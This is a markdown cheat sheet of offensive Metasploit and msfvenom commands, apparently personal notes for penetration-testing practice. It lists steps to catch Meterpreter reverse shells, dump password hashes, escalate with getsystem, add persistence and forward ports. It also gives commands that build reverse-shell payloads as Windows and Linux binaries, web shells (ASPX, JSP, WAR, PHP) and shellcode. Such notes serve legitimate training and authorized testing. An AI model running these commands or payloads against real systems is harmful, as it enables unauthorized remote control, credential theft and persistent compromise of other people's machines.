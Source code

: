 # Metasploit
## MSFConsole
```bash
search params
options
check

set PAYLOAD java/meterpreter/reverse_tcp

sudo msfconsole

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 6666
exploit

background

sessions -u 1

load powershell 
powershell_shell

hashdump

# https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem
getsystem

run post/multi/recon/local_exploit_suggester

run persistence -h

migrate
```

## SearchSploit
```bash
searchsploit [software/version]
```
### Port Forwarding
```bash 
portfwd add -R -L 0.0.0.0 -l 80 -p 8080 -r 0.0.0.0

portfwd del -l 80 -p 8080 -r 127.0.0.1 -R
```

## MSFVenom
### Binaries
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=6666 -f exe -o 6shell.exe

msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=tun0 LPORT=6666 -f elf > shell.elf

msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1337 -f jar > payload.jar

# Linux reverse shell - Staged
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell
# Linux reverse shell - Stageless
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell

# Windows reverse shell - Staged
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
# Windows reverse shell - Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
```

### Web
```bash
# PHP
msfvenom -p php/reverse_php 

# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

### Shellcode

Select appropriate architecture
```bash
# Linux Staged - use python or c
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Linux Stageless - use python or c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python

# Windows Staged - use python or c
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Windows Stageless - use python or c
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python
```

![[psexecexample.png]]

#### MSF - Permanent Target Specification
In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.
